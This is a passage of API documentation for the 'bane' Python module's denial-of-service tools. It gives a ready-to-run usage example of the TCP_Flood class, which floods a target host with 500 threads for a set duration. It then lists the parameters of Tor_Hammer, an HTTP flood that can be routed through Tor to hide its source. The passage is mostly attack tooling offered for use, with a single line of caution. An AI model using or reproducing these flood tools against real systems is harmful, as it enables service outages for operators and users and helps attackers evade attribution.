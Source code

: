 <h2>Methods</h2>
<h3><code>attack(self)</code></h3>
<p>This method initiates the TCP flooding attack on the target server by sending a large number of TCP packets with random payload sizes. It operates in a separate thread.</p>

<h2>Example Usage</h2>
<p>To use the <code>TCP_Flood</code> class, create an instance of it by providing the required parameters, and it will start performing a TCP flooding attack on the target URL or IP address in the background. Here's an example:</p>

<pre><code>
from bane.ddos import TCP_Flood

#Create an instance of TCP_Flood
tcp_flood_attack = TCP_Flood(
    "example.com",
    p=80,
    threads_daemon=True,
    min_size=10,
    max_size=50,
    threads=500,
    timeout=5,
    round_min=1000,
    round_max=10000,
    interval=0.001,
    duration=60,
    logs=True,
    tor=False,
    ssl_on=False
)

#TCP flooding attack is performed in the background
#Monitor the attack's progress as needed

#To stop the attack, you can set tcp_flood_attack.stop = True

#Be cautious and responsible when using such attack techniques in a real environment.
</code></pre>
<h1>Tor_Hammer Class</h1>

<h2>Class Overview</h2>
<p>The <code>Tor_Hammer</code> class is part of the "bane" module and is used to perform a DDoS attack with the ability to switch between using the Tor network and direct connections. This attack sends a high volume of HTTP requests to a target server to overwhelm it and disrupt its normal operations.</p>

<h2>Class Constructor</h2>
<pre><code>class Tor_Hammer(DDoS_Class)
</code></pre>
<p>This constructor initializes an instance of the <code>Tor_Hammer</code> class with the following parameters:</p>

<ul>
    <li><code>u</code> (str): The target URL or IP address for the DDoS attack.</li>
    <li><code>p</code> (int): Port number of the target server (default is 80).</li>
    <li><code>cookie</code> (str): The HTTP cookie to be included in the requests (default is None).</li>
    <li><code>user_agents</code> (list): List of user-agent strings to be used in the HTTP requests (default is None).</li>
    <li><code>threads_daemon</code> (bool): Set threads as daemons (default is True).</li>
    <li><code>threads</code> (int): Number of threads for the attack (default is 500).</li>
    <li><code>timeout</code> (int): Timeout for the socket connections in seconds (default is 5 seconds).</li>
    <li><code>tor</code> (bool): Use the Tor network for the attack (default is False).</li>
    <li><code>duration</code> (int): Duration of the attack in seconds (default is 60 seconds).</li>
    <li><code>logs</code> (bool): Enable or disable logging (default is False).</li>
    <li><code>max_content</code> (int): Maximum content length of the HTTP requests (default is 15000 bytes).</li>